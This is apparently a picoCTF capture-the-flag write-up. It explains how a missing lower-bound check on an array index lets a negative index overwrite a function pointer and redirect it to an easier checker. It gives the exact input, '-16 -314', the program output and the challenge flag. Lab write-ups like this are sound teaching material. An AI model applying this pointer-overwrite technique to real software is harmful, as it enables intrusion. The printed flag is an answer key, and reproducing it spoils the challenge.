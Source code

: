 ### Current progress: Done

A `vuln` binary and `vuln.c` source code is given.

The source code has accepts the following inputs:
- a string for checking it's value.
- two integer for setting value of an array at that index.

It seems like there is a function pointer `check` which is used to call `hard_checker`. This `hard_checker` for loops and sum through each character in the string, and then prints out the flag if its value matches `13371337`.

This however, is impossible because the string len is only set to 128 as shown in: `char story[128];`

But, there is another function `easy_checker`, which essentially does the same thing as `hard_checker` but comparing it to the value `1337` instead.

If we are able to run `easy_checker`, we can supply it ten `z` characters (`122*10 = 1220`) and one `u` (`117`) which totalled to exactly `1220+117=1337` 



Using the hints and the tags provided in the challenge. We found the vulnerability related to the following codes:

```c
void (*check)(char*, size_t) = hard_checker;

...

void vuln()
{
    ...

    scanf("%127s", story);
    scanf("%d %d", &num1, &num2);

    if (num1 < 10)
    {
        fun[num1] += num2;
    }

    check(story, strlen(story));
}
```

This codes suffer from an `Array Out-of-bounds` exploit. From [cwe.mitre.org](https://cwe.mitre.org/data/definitions/125.html), it stated that if the inputted index isn't checked for the minimum value - it can be provided a negative number.

We tinkered with the value in `ghidra` and `pwndbg` and found out that:
- `fun` array's address is `64` decimal difference from `check` function pointer.
- To manipulate the `check` function pointer, we have to provided the index to `fun` to be `-64/4-bytes-per-addr = -16`
- We then found out that the address of `hard_checker` is `314` decimal after `easy_checker`.
- This means we can give the binary `-314` for its second value, which will point to the address of `easy_checker`.

This means our input will be: 
```
zzzzzzzzzzu
-16 -314
```

After we checked that this exploit works locally, we ran it on picoCTF's network and acquired the following output:
```
Tell me a story and then I'll tell you if you're a 1337 >> zzzzzzzzzzu
On a totally unrelated note, give me two numbers. Keep the first one less than 10.
-16 -314
You're 1337. Here's the flag.
picoCTF{0v3rwrit1ng_P01nt3rs_f61460f0}
```

From the above, we find our flag to be: `picoCTF{0v3rwrit1ng_P01nt3rs_f61460f0}`
